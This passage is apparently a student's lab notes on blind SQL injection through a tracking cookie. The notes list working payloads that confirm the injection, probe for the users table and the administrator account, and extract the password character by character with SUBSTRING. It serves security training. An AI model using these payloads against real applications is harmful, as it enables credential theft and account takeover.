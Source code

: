 | Query to use | xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's |
|--------------|----------------------------------------------------------------------------------------------|

4.  We can use this method to determine the full password, but it may take some time.

**<u>Note:</u>** The SUBSTRING function is called SUBSTR on some types of database. For more details, see the SQL injection cheat sheet.

**<u>(Lab-11)</u>** - **<u>Blind SQL Injection with Conditional Responses</u> ------------------------------**

**Vulnerable Parameter** - Tracking Cookie

**End Goal:**

1.  Enumerate the password of the administrator
2.  Log in as the administrator user

**<u>Analysis:</u>**

1.  **Confirm that the parameter is vulnerable to Blind SQLi**

| Original Query | Select tracking-id from tracking-table where tracking-id = 'asas1e21easdas' |
|----------------|-----------------------------------------------------------------------------|

- If this tracking id exist \> query will return "Welcome Back" message
- If the tracking id doesn’t exist \>query will return nothing

| Query used to check parameters | Select tracking-id from tracking-table where tracking-id = 'asas1e21easdas' and 1=1--' |
|--------------------------------|----------------------------------------------------------------------------------------|

Below is the true Query used:

![image1](image1-193.png)

2.  **Confirm that we have a user's table**

| Query to use | ' and (select 'x' from users LIMIT 1)='x'--' |
|--------------|----------------------------------------------|

![image2](image2-89.png)

- This answers that the users table exist in the database.

3.  **Confirm that the username "administrator" exists in the users table.**

| Query to use | ' and (select username from users where username='administrator')='administrator'--' |
|--------------|--------------------------------------------------------------------------------------|

![image3](image3-58.png)

- Confirms that the administrator user exists

4.  **Enumerate the password of the administrator user**

- The below query will identify if the length of the password is greater than the input value.
- Since the username administrator has been identified as existing we can use that to identify the password

The below query will identify the length of the password.
